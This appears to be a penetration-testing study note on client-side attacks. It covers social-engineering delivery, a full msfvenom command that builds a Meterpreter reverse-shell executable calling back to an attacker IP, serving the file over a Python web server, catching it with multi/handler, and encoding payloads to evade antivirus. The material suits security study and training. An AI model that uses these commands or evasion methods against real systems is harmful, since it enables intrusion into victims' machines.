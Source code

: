 ## Client-Side Attacks 

+ A client-side attack is an attack vector that involves coercing a client to execute a malicious payload on their system that consequently connects back to the attacker when executed 
+ Client-side typically utilizes various social engineering techniques like generating malicious documents or portable executables (PEs)
+ Client-side attacks take advantage of human vulnerabilities as opposed to vulnerabilities in services or software running on the target system
+ Given that this attack vector involves the transfer and storage of a malicious payload on the clients system (disk), attackers need to be cognizant of AV detection 

### Generating Payloads With Msfvenom 

#### Msfvenom 
+ <mark style="background: #D2B3FFA6;">Msfvenom</mark> is a command line utility that can be used to generate and encode MSF payloads for various operating systems as well as web servers
+ Combines utilities: `msfpayload` and `msfencode`
+ Can generate meterpreter payload that can be transferred to the client system, will then connect back

<mark style="background: #FF5582A6;">Payloads</mark>
+ Can see all payloads with `msfvenom --list payloads`
+ Will specify payload via `OS_TYPE/ARCHITECTURE/PAYLOAD_TYPE/PROTOCOL`
	+ Example: `windows/x64/meterpreter/reverse_http`
+ Staged vs Not-Staged Payload:
	+ Will know that the payload is staged because the PAYLOAD_TYPE and PROTOCOL will be separated by a `/` not a `_`
	+ Staged Meterpreter payload contain shell code that performs network communications in order to read in the second stage 
+ Example: `msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.107 lport=6001 -f exe > securitytutorials.exe`
  + `-a` specifies architecture 
  + `-p` lets you specify which payload you want to use
  + `lhost` this needs to be the attackers IP address you want the payload to connect back to
  + `lport` as above; this is the port the payload will connect on and will need to be set up in the handler
  + `-f` this tells Msfvenom what it should create the payload as

Simple <mark style="background: #FFF3A3A6;">Webserver to Transfer Files</mark>
+ `sudo python -m SimpleHTTPServer 80`

<mark style="background: #FF5582A6;">Handler</mark>
+ In msfconsole, will `use multi/handler`
  + will then `set payload PAYLOAD_GENERATED`

### Encoding Payloads With Msfvenom 

+ Given that this attack vector involves the transfer and storage of a malicious payload on the client's system (disk), attackers need to be cognisant of AV detection 
+ Most end user AV solutions utilize signature based detection in order to identify malicious files or executables
+ Can evade older signature based AV solutions by encoding the payloads 
+ Encoding is the process of modifying the payload shellcode with the objective of modifying the payload signature 
